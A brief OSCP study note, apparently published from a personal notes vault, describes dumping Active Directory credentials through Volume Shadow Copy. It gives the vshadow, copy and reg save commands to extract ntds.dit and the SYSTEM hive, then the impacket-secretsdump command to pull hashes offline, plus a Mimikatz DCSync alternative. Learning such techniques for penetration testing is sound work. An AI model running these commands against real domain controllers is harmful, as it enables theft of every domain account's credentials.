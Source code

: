 ```yaml
---
{"dg-publish":true,"permalink":"/1-oscp/14-active-directory-movement/8-shadow-copies/"}
---
```


------------------------
- Shadow Copy, a.k.a. Volume Shadow Service (VSS), is a Microsoft backup technology that allows for creation of snapshots of files and volumes.
- Managed through vshadow.exe.
- As a domain admin one can extract the AD NTDS.dit database file and extract credentials offline.

### Extract ntds.dit AD Database:
1. As domain admin in elevated Powershell run:
```
vshadow.exe -nw -p  C:
```
2. Copy the extracted file to root folder:
```
copy <shadow-copy-device-name>\windows\ntds\ntds.dit c:\ntds.dit.bak
```
3. Save the SYSTEM hive from windows registry:
```
reg.exe save hklm\system c:\system.bak
```
4. Move the two files to Kali and use Impacket to extract credentials:
```
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

### Alternative OpSec Method:
1. Compromise DC.
2. Get Mimikatz to machine.
3. Dump hashes for all users individually through DCSync attacks.